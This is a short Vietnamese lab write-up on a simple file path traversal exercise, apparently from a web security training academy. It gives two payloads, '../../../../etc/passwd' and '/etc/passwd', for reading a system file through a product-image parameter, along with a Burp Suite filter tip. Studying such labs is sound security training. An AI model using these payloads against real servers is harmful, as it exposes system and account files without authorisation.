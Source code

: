 # Lab: File path traversal, simple case
Bài thực hành này chứa lỗ hổng bảo mật đường dẫn trong việc hiển thị hình ảnh sản phẩm.

Để giải quyết bài thực hành, hãy truy xuất nội dung của tệp `/etc/passwd.`

Playload 1
```
../../../../etc/passwd
```
Playload 2
```
/etc/passwd
```
* Trong Filter settings của Burp Suite, chọn Show all để thấy toàn bộ ảnh, css ...  
<img src="./img/Screenshot 2025-07-23 at 22.40.11.png">
